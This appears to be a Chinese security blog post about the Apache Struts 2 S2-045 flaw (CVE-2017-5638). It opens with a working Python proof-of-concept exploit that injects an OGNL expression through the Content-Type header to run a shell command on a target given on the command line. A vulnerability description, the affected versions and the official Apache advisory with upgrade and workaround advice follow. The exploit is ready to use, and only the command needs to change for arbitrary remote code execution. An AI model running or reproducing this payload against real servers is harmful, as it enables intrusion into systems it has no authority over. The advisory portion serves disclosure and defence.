 ```yaml
---
title: ST2-045 For POC
id: csdn63252440
---
```


> **转载请注明：** 转载自[Legend‘s BLog](http://www.legendsec.org/)
> 
> **本文链接地址:** [ST2-045 For POC](http://www.legendsec.org/1752.html)

利用方法：

```
#! /usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

def poc():
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()

poc()
```

漏洞说明：

Apache Struts 2被曝存在远程命令执行漏洞，漏洞编号S2-045，CVE编号CVE-2017-5638，在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。

**漏洞编号：**

CVE-2017-5638

**漏洞名称：**

基于 Jakarta plugin插件的Struts远程代码执行漏洞

**官方评级：**

高危

**漏洞描述**：

恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

**漏洞利用条件和方式：**

黑客通过Jakarta 文件上传插件实现远程利用该漏洞执行代码。

1.  基于Jakarta（Jakarta Multipart parser）插件的文件上传功能

2.  恶意攻击者精心构造Content-Type的值

**通过版本比对定位漏洞原因：**

1.  `\core\src\main\java\org\apache\struts2\dispatcher\multipart\MultiPartRequestWrapper.java`
2.  `core\src\main\java\org\apache\struts2\dispatcher\multipart\JakartaMultiPartRequest.java`
3.  `\core\src\main\java\org\apache\struts2\dispatcher\multipart\JakartaStreamMultiPartRequest.java`

```
if  (LocalizedTextUtil.findText(this.getClass(), errorKey, defaultLocale, null,  new Object[0]) == null) {
    return LocalizedTextUtil.findText(this.getClass(),  “struts.messages.error.uploading”, defaultLocale, null, new  Object[] { e.getMessage() });
 } else {
    return  LocalizedTextUtil.findText(this.getClass(), errorKey, defaultLocale, null,  args);
}
```

**漏洞影响范围：**

*   Struts 2.3.5 – Struts 2.3.31
*   Struts 2.5 – Struts 2.5.10
*   Created by [Lukasz Lenart](https://cwiki.apache.org/confluence/display/~lukaszlenart), last modified [yesterday at 01:14 PM](https://cwiki.apache.org/confluence/pages/diffpagesbyversion.action?pageId=68717257&selectedPageVersions=4&selectedPageVersions=5)

**Summary**

Possible Remote Code Execution when performing file upload based on Jakarta Multipart parser.[td]

| Who should read this | All Struts 2 developers and users |
| --- | --- |
| Impact of vulnerability | Possible RCE when performing file upload based on Jakarta Multipart parser |
| Maximum security rating | High |
| Recommendation | Upgrade to [Struts 2.3.32](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32) or [Struts 2.5.10.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1) |
| Affected Software | Struts 2.3.5 – Struts 2.3.31, Struts 2.5 – Struts 2.5.10 |
| Reporter | Nike Zheng |
| CVE Identifier | CVE-2017-5638 |

**Problem**

It is possible to perform a RCE attack with a malicious Content-Type value. If the Content-Type value isn’t valid an exception is thrown which is then used to display an error message to a user.

**Solution**

If you are using Jakarta based file upload Multipart parser, upgrade to Apache Struts version 2.3.32 or 2.5.10.1\. You can also switch to a different [implementation](https://cwiki.apache.org/confluence/display/WW/File+Upload#FileUpload-AlternateLibraries) of the Multipart parser.

**Backward compatibility**

No backward incompatibility issues are expected.

**Workaround**

Implement a Servlet filter which will validate Content-Type and throw away request with suspicious values not matching multipart/form-data.